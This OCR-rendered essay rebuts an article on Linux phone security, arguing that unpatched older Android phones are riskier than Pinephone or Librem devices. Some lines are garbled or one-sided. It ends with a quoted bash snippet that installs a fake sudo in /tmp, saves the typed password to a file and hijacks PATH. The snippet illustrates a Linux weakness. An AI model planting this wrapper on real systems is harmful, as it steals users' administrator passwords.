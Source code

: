 The author has demonstrated their incompetence in many ways throughout the
article, and I don't believe that it is possible to further discredit oneself
more than by picking the worst of two possible options.

Graphene OS, has none of the aforementioned weaknesses covered. Furthermore,
since it relies on largely proprietary "apps", it exposes itself to a far
broader range of attacks.

### and so on which modern Android phones already deploy.

First, I'd like to take this time to remind you of an old principle in logic
and debating: extraordinary claims require extraordinary evidence. Define
modern Android phone. Is it a Galaxy S22? Is it a Sony Xperia one two? Or is it
my Samsung Galaxy S7 edge?

Considering that both the Pinephone and Librem are based off of SoC's that are
comparable in both performance and age to my Galaxy S7, I'd be happy to make a
fair comparison.

First of all, my Galaxy S7 edge doesn't receive updates. I bought it four years
ago, and call me old-fashioned, but I'd consider the one poultry year of
updates and two years of no updates whatsoever a huge security risk. one year
later, the same will be true of the S10 and one more – S22.

The reason why this is important is the following. What house is more likely to
get robbed? The house where the owner changes cheap locks periodically, or a
house with an expensive lock that gets abandoned for years? The state of
"modern" android phones is likely to be frozen for a while. At the same time,
every single one of the arguments presented here, had they been merited, would
have been patched in a growing ecosystem of devices. Linux phone owners are
also the kinds of people who are likely to upgrade more than just the Operating
system kernel when given the opportunity.

And this is kind of important. The only valid argument in the entire article
had been that hardware kill switches are superfluous, every single argument was
beside the point.

## Examples

Oh boy. The author quite clearly invited us to compare their thoughts on Linux
security to the subject matter of this particular article. So we shall.

```bash
cat <<\EOF > /tmp/sudo
#!/bin/bash
if [[ "${@}" = "" ]]; then
  /usr/bin/sudo
else
  read -s -r -p "[sudo] password for ${USER}: " password
  echo "${password}" > /tmp/password
  echo "${password}" | /usr/bin/sudo -S ${@}
fi
EOF
chmod +x /tmp/sudo
export PATH="/tmp:${PATH}"
```
